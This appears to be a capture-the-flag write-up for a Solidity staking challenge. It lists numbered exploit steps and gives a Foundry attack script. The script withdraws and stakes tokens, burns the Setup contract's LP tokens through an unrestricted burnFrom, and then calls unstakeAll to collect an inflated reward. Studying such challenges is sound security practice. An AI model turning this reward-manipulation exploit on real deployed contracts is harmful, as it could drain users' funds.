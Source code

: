 ### Exploit
1. withdraw 1\*1e18 tokens from `Setup`
2. approve and `stake` 1\*1e18 token
3. burn `Setup`'s all tokens (`LPTOKEN`)
4. wait for a minute
5. `unstakeAll` and gets a big reward
6. transfer 10\*1e18 tokens to `Setup`
7. Solved!

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

import {StakingManager} from "./StakingManager.sol";
import {Setup} from "./Setup.sol";
import {LpToken} from "./LpToken.sol";
import {Token} from "./Token.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Attack is Script{
  Setup public setup2 = Setup([setup contract]);
  StakingManager public stakingManager = setup2.stakingManager();
  Token public token = setup2.token();
  LpToken public lpToken = stakingManager.LPTOKEN();
  address me = [your address];

  function attack1() public {
    setup2.withdraw();
    uint256 balance = token.balanceOf(me);
    token.approve(address(stakingManager), balance);
    stakingManager.stake(balance);
    lpToken.burnFrom(address(setup2), 100000 * 1e18);

    uint256 totalSupply = lpToken.totalSupply();
    console.log(totalSupply);
  }
  function attack2() public{
    stakingManager.unstakeAll();
    uint256 balance = token.balanceOf(me);
    console.log(balance);

  }
  function send_10() public{
    token.approve(address(setup2), 10 * 1e18);
    token.transfer(address(setup2), 10 * 1e18);
  }

  function run() external {
    vm.startBroadcast();

    attack1();

    // attack2();

    // send_10();

    vm.stopBroadcast();
  }
}
```
